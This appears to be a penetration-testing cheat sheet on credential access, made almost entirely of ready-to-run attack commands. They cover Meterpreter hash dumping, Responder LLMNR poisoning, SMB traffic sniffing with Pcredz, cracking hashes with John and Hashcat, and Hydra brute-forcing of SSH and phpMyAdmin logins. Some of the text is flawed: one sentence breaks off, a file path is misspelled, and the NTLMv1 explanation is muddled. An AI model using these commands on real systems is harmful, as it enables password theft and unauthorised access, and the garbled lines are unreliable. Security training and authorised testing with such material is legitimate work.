 # Credential Access

## NTLMv1
SAM and NTDS.dit files contain unsalted NT hashes and are used in NTLMv1 challenge/responses. These hashes can be cracked or used in Pass-the-Hash attacks.

### Metasploit, MSFVenom, Meterpreter, and John
```bash
# setup a handler using Metasploit
# create a Meterpreter-based payload using MSFVenom
# get the target to download and execute the payload
# configure and run the post/windows/gather/hashdump exploit in Metasploit
vim hash.txt # save hash dump to a file
john --format=nt hash.txt # crack the hash
john --format=nt --show hash.txt      # show the password
```

## NTLMv2
NTLMv2 challenge/responses cannot. 

### Responder and John
```bash
sudo Responder.py -I eth0 
# wait for Responder to reply to a LLMNR request 
# then, check Responder's log directory for the NTLMv2 hash obtained 
cat responder/logs/SMB-NTLMv2-SSP-*.txt
john --format=netntlmv2 responder/logs/SMB-NTLMv2-SSP-*.txt # crack the hash
john --show responder/logs/SMB-NTLMv2-SSP*.txt              # show the password
```

### Tcpdump, Pcredz, and Hashcat
```bash
sudo tcpdump -ni eth0 port 445 -w /tmp/traffic.pcap
# wait for someone to auth via SMB to a Windows machine
sudo Pcredz -vf traffic.pcap
# use /tmp to avoid a segmentation fault
# check Pcredz's log directory for the NTLMv2 hash obtained
cat pcredz/logs/NTLMv2.txt
hashcat -a0 -m5600 -w3 pcredz/logs/NLTMV2.txt                   # crack the hash
hashcat -m5600 pcredz/logs/NTLMv2.txt --show --outfile-format 2 # show the password
```

## SSH
### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh
```

## HTTP
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET \
  http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"
```
